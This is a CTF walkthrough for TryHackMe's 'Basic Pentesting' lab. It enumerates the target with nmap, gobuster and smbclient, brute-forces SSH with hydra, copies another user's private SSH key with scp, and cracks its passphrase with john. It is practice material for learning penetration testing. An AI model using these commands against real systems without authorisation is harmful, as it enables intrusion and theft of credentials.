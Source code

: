 Basic Pentesting | TryHackMe
1. First, nmap to the target.

`nmap -sV 10.10.150.97`
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-11 13:17 JST
Nmap scan report for 10.10.150.97
Host is up (0.30s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3390/tcp filtered dsc
3517/tcp filtered 802-11-iapp
8009/tcp open     ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open     http        Apache Tomcat 9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 300.35 seconds
```
2. http is available and I'm going to see it.

![picture](https://github.com/itc-n22003/new/blob/main/pictures/basic_pentesting_80.png)

I didn't find anything in particular.

3. I'll try gobuster.

`gobuster dir -w common.txt -u http://10.10.150.97`
```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.150.97
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/n22003/Work/Wordlist/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/05/11 13:34:44 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 296]
/.hta                 (Status: 403) [Size: 291]
/.htpasswd            (Status: 403) [Size: 296]
/development          (Status: 301) [Size: 318] [--> http://10.10.150.97/development/]
/index.html           (Status: 200) [Size: 158]
/server-status        (Status: 403) [Size: 300]
Progress: 4614 / 4615 (99.98%)
===============================================================
2023/05/11 13:37:09 Finished
===============================================================
```

4. I'll take a look at it since the `/development` is suspicious.
Found dev.txt and j.txt.
According to dev.txt, smb is free. (I knew this from nmap earlier...)

5. Take a look at the SMB.
```
        Sharename       Type      Comment
        ---------       ----      -------
        Anonymous       Disk      
        IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            BASIC2
```
Check Anonymous.

6. I'll try to connect it to Anonymous.

`smbclient \\\\10.10.150.97\\Anonymous`
No passwords.
```
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Apr 20 02:31:20 2018
  ..                                  D        0  Fri Apr 20 02:13:06 2018
  staff.txt                           N      173  Fri Apr 20 02:29:55 2018

                14318640 blocks of size 1024. 11094400 blocks available
```
Take a look at staff.txt

`more staff.txt`

I found a user named Jan.

7. I'm going to try to do a total ssh hit on Jan with hydra.

`hydra -l jan -P rockyou.txt 10.10.150.97 ssh`

8. Now that I have jan's password, I'll try connecting via ssh.
There was nothing special in jan's directory.
However, there were some in kay's directory, so I tried ssh connection with kay.

9. Get kay key.
I'll try to see if I can get the kay key with scp.

`scp jan@10.10.150.97:/home/kay/.ssh/id_rsa .`

The password is jan's.
I got it and I'm going to feed it to john.

`ssh2john id_rsa > hash`

Analyze with john.

`john --wordlist=rockyou.txt hash`

Now that I know kay's password, I change id_rsa's permissions to 600 and ssh.

`chmod 600 id_rsa`

`ssh -i id_rsa kay@10.10.150.97`

The password is the one I just parsed.
If you can log in, check pass.bak and that's it.
